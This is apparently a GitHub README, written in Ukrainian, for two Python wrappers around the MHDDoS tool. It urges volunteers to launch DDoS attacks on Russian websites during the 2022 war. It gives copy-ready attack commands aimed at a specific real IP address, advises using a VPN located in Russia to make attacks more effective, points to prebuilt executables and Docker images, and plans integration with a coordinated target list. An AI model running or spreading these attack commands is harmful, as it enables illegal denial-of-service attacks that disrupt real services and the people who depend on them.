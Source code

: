 # Паляниця

![GitHub last commit](https://img.shields.io/github/last-commit/pocket-sunflower/palyanytsya)
[![Python 3.10](https://img.shields.io/badge/python-3.10-f.svg)](https://www.python.org/downloads/release/python-360/)
![](https://img.shields.io/github/license/pocket-sunflower/palyanytsya)
![](https://img.shields.io/docker/pulls/pocketsunflower/pyrizhok?label=pyrizhok%20docker%20pulls)
![](https://img.shields.io/docker/pulls/pocketsunflower/palyanytsya?label=palyanytsya%20docker%20pulls)

Цифрова зброя проти xуйлoвської пропаганди.

Щоб негайно почати шкварити рашистські сайти – мерщій у [швидкий старт][docs-quickstart]! ⚡️

А коли ворожі сервери вже жаряться і є час почитати – ласкаво просимо вниз.

---

## Швидкі посилання

- [⚡ Швидкий старт][docs-quickstart]
- [🔥 Мотивація](#motivation)
- [🔧 Технічні деталі](#technical)
  - [📑 Параметри](#parameters)
  - [🍞 Випічка](#building)
  - [🥐 Випічка (самостійно)][docs-building-detailed]
  - [🥡 Запуск вихідного коду](#run-from-source)
- [🚀 Плани та колаборація](#plans-and-collaboration)

---

## <a name="motivation"></a>🔥 Мотивація

24-го лютого 2022 року Російська Федерація підступно напала на Україну. В перші дні нападу Мінцифри України оперативно організувало кібер-армію: легіон IT-фахівців та волонтерів, які доклали свої сили та вміння на протидію рашистському агресору у цифровому просторі.

Цей репозиторій – духовний спадкоємець декількох проектів, що допомагали нам тримати цифровий тиск по ворогу у перший тиждень війни. Наша ціль – зробити запуск цього коду якомога простішим для більшості людей і при тому зберегти ефективність і гнучкість опцій атаки.

Тож, вмикайте свої машини, відкривайте термінали, і вліпимо дружньою паляницею по системах окупантів!

Слава Україні! Ми разом і ми переможемо! 💙💛

---

## <a name="technical"></a>🔧 Технічні деталі 


[MHDDoS][mhddos-github] – це потужний пайтон-скрипт для виконання DDoS атак у різних режимах. Наш репозиторій надає для нього два прості врапери: 

- Пиріжок ([pyrizhok](pyrizhok.py)) – мінімалістична версія врапера, яка потребує лише **адресу цілі** для того, щоб запустити атаку. Тим паче, за бажанням можна надати інший **порт** і **протокол**. Створений для починаючих котиків 😸
- Паляниця ([palyanytsya](palyanytsya.py)) – це повний врапер для MHDDoS, який приймає **всі опції** з оригінального скрипта. Створений для досвідчених в IT котів та киць 😼


### <a name="parameters"></a>📑 Параметри

> **⚠** **ВАЖЛИВО:** Не забувайте користуватися VPN! Бажано з локацією в Росії - так ефективніше.

**Пиріжок** можна запускати без параметрів – під час запуску він сам спитає вас про те, кому і як треба вгатити.

Тим не менш, параметри можна передати наперед у такому форматі:

```bash
pyrizhok.py <target_address> <target_port> <attack_method>
```

Значення параметрів:

1. `target_address` – адреса цілі. Може бути URL або IP-адресою.
2. `target_port` – (опціонально) порт цілі.
3. `attack_method` – (опціонально, потребує вказаний порт) метод, який буде використовуватися для атаки. Список можливих  опцій можна побачити [в оригінальному доці MHDDoS][mhddos-github-layer7]. 

**Паляниця** дає доступ до всіх опцій в MHDDoS, яких немало, тому зараз рекомендуємо дивитися прямо в [оригінальну документацію][mhddos-github-launch]. Також деталі про параметри можна подивитися запустивши паляницю з параметром help: 
```bash
palyanytsya.py help
```

Мапа параметрів залежить від того, на який шар мережі ведеться атака.

- Layer 7: 
   ```bash
   palyanytsya.py <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>

- Layer 4: 
  ```bash
  palyanytsya.py <method> <ip:port> <threads> <duration>
  ```



### <a name="building"></a>🍞 Випічка

Паляниця та пиріжок запаковані в декілька різних форматів, аби зменшити час на налаштування і запуск до мінімуму.

> **ℹ** Детальний гайд про те, як самостійно запекти пиріжок та паляницю [можна знайти тут][docs-building-detailed].

**PyInstaller 🐍** Standalone версії обох програм запаковані за допомогою [PyInstaller][pyinstaller]. Python-скрипти для створення білдів можна знайти у папці [build_scripts_PyInstaller](build_scripts_PyInstaller). Зауважте, що білд створюється для тієї ж платформи, на якій запущено скрипт (наприклад, щоб збілдити проект на Mac - треба запустити бідповідний білд на машині з macOS). Вихідні файли знаходяться у своїх папках:
- 💻 Білди .exe для Windows – в [executables/Windows](executables/Windows).
- 🐧 Білди для Linux – в [executables/Linux](executables/Linux).
- 🍎 Білди для Mac – в [executables/Mac (Intel)](executables/Mac%20(Intel)) та [executables/Mac (M1)](executables/Mac%20(M1)).

**Docker 🐋** Скрипти для збирання Docker-контейнерів та самі Dockerфайли знаходяться в папці [build_scripts_Docker](build_scripts_Docker). Найновіші версії обох контейнерів також доступні у репозиторії Docker Hub:
- [pocketsunflower/pyrizhok:latest][dockerhub-pyrizhok]
- [pocketsunflower/palyanytsya:latest][dockerhub-palyanytsya]

Якщо хочете створити білди самостійно – ласкаво просимо в [детальний гайд][docs-building-detailed].



### <a name="run-from-source"></a>🥡 Запуск вихідного коду

Щоби запустити пиріжок чи паляницю з джерела:

1. Клонуємо цей репозиторій:
    ```bash
    git clone https://github.com/pocket-sunflower/palyanytsya
    ```

2. Заходимо в папку та створюємо віртуальне середовише:
    > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**](https://www.python.org/downloads/release/python-3102/).
    ```bash
    cd palyanytsya
    virtualenv --python python3.10 venv
    ```

3. Активуємо середовище та встановлюємо залежності:
    ```bash
    source venv/bin/activate
    pip install -r requirements.txt
    ```

4. Запускаємо пиріжок (або паляничку) з потрібною адресою, наприклад _194.85.30.210_ ([саме так][same-tak]):
    ```bash
    python3 pyrizhok.py 194.85.30.210 443 TCP
    ```
    ```bash
    python3 palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

    …і те, що за адресою, відправляється вслєд за рускім корабльом.

---

## <a name="plans-and-collaboration"></a>🚀 Плани та колаборація

Найближчим часом планується:
- ✅ ~~Додати кращий логінг статусу атаки (наразі атака іде у фоновому режимі, без індикації статусу).~~
- Додати новий клієнт для автоматичного «тестування» [адрес][db1000n-targets] наданих проектом [«Death by 1000 needles»][db1000n]. Це допоможе нам бути більш скоординованими та ефективними.
- Додати автоматизацію білдів для усіх платформ через CI.
- Whatever else may come…

Якщо ви можете допомогти з будь-яким пунктом вище, або у вас є ідеї про те, як покращити існуючий код, ми будемо дуже вдячні - відкривайте [issues][repo-issues] та пропонуйте [pull requests][repo-pull-requests]. Єдина умова - чітко поясніть, що ви хотіли би змінити, щоб ніхто не витрачав часу на непорозуміння.

---

<div style="text-align: center">Бережіть себе! Все буде Україна! </div>

<div style="text-align: center">💙💛</div>

<div style="text-align: right"><span style="font-style: italic">Pocket Sunflower </span>🌻</div>



<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[mhddos-github-launch]: https://github.com/MHProDev/MHDDoS#launch-script
[mhddos-github-layer7]: https://github.com/MHProDev/MHDDoS#features-and-methods
[pyinstaller]: https://pyinstaller.readthedocs.io/en/stable/index.html
[db1000n]: https://github.com/Arriven/db1000n
[db1000n-targets]: https://github.com/db1000n-coordinators/LoadTestConfig/blob/main/config.json
[repo-issues]: https://github.com/pocket-sunflower/palyanytsya/issues
[repo-pull-requests]: https://github.com/pocket-sunflower/palyanytsya/pulls
[dockerhub-pyrizhok]: https://hub.docker.com/repository/docker/pocketsunflower/pyrizhok
[dockerhub-palyanytsya]: https://hub.docker.com/repository/docker/pocketsunflower/palyanytsya
[same-tak]: https://www.nslookup.io/dns-records/mid.ru
[docs-building-detailed]: docs/BUILDS.md
[docs-quickstart]: docs/QUICKSTART.md
